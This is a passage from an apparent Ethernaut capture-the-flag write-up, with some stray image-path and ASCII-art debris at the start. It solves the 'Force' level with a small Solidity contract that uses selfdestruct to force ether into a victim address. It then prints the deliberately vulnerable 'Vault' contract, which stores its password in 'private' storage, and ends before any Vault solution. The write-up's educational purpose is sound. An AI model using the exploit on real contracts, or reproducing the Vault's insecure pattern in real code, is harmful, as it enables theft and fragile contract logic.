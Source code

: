 ```
    ____/ o o \
  /~____  =ø= /
 (______)__m_m)

*/}

```

### Solution

We're asked to force the contract to accept money. If it has a `revert` in the receive or in the fallback method, it will automaticaly reject our ether. One way to bypass that kind of check is to selfdestruct one contract and that will send the money to the address that we want, forcing it to recieve the ether.

```
// SPDX-License-Identifier: GPL-3.0

pragma solidity >=0.7.0 <0.9.0;

contract Attack {
    constructor(address victim) payable {
        address payable payableVictime = payable(victim);
        selfdestruct(payableVictime);
    }
}
```
The lesson here is that there no way to reject the ether from a contract that is self destroying itself so don't rely on `address(this).balance == 0` for any of the logic inside your contracts.

## 8. Vault

```
Unlock the vault to pass the level!
Sources

// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Vault {
  bool public locked;
  bytes32 private password;

  constructor(bytes32 _password) public {
    locked = true;
    password = _password;
  }

  function unlock(bytes32 _password) public {
    if (password == _password) {
      locked = false;
    }
  }
}


```
